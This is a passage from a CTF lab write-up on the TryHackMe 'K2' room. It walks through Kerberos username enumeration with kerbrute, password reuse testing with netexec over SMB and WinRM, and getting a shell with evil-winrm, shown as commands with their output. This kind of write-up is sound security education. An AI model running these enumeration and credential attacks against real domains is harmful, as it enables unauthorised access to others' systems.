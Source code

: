 From the `nmap` scan, we obtain the hostname and the domain, which we add to our hosts file.

```console
10.10.231.218 K2SERVER k2.thm k2server.k2.thm
```
{: file="/etc/hosts" }

### Shell as r.bud

The task explicitly instructs us to use all the information gathered previously. So, let's use the full names we discovered earlier with `username-anarchy` to generate a list of possible usernames.

```console
$ cat fullnames.txt
Rose Bud
James Bold

$ username-anarchy -i fullnames.txt > possible_usernames.txt
```

Testing the possible usernames against Kerberos with `kerberute`, we discover two valid usernames: `r.bud` and `j.bold`.

```console
$ kerbrute userenum --dc K2SERVER -d k2.thm possible_usernames.txt
...
2024/09/28 02:16:52 >  [+] VALID USERNAME:       r.bud@k2.thm
2024/09/28 02:16:53 >  [+] VALID USERNAME:       j.bold@k2.thm
```

Now that we know the username format, we can test the passwords found from **Base Camp** using `netexec`.

While the previous password for the `james` user does not work, the password discovered in the bash history for the `rose` user is successful, and we can also log in using **WinRM**.

```console
$ nxc smb k2server.k2.thm -u 'j.bold' -p 'Pw[REDACTED]3!'
SMB         10.10.231.218   445    K2SERVER         [*] Windows 10.0 Build 17763 x64 (name:K2SERVER) (domain:k2.thm) (signing:True) (SMBv1:False)
SMB         10.10.231.218   445    K2SERVER         [-] k2.thm\j.bold:Pw[REDACTED]3! STATUS_LOGON_FAILURE

$ nxc smb k2server.k2.thm -u 'r.bud' -p 'vR[REDACTED]!8'
SMB         10.10.231.218   445    K2SERVER         [*] Windows 10.0 Build 17763 x64 (name:K2SERVER) (domain:k2.thm) (signing:True) (SMBv1:False)
SMB         10.10.231.218   445    K2SERVER         [+] k2.thm\r.bud:vR[REDACTED]!8

$ nxc winrm k2server.k2.thm -u 'r.bud' -p 'vR[REDACTED]!8'
SMB         10.10.231.218   445    K2SERVER         [*] Windows 10.0 Build 17763 (name:K2SERVER) (domain:k2.thm)
WINRM       10.10.231.218   5985   K2SERVER         [+] k2.thm\r.bud:vR[REDACTED]!8 (Pwn3d!)
```

Now, using `evil-winrm`, we can obtain a shell as the `r.bud` user.

```console
$ evil-winrm -i k2server.k2.thm -u 'r.bud' -p 'vR[REDACTED]!8'
```
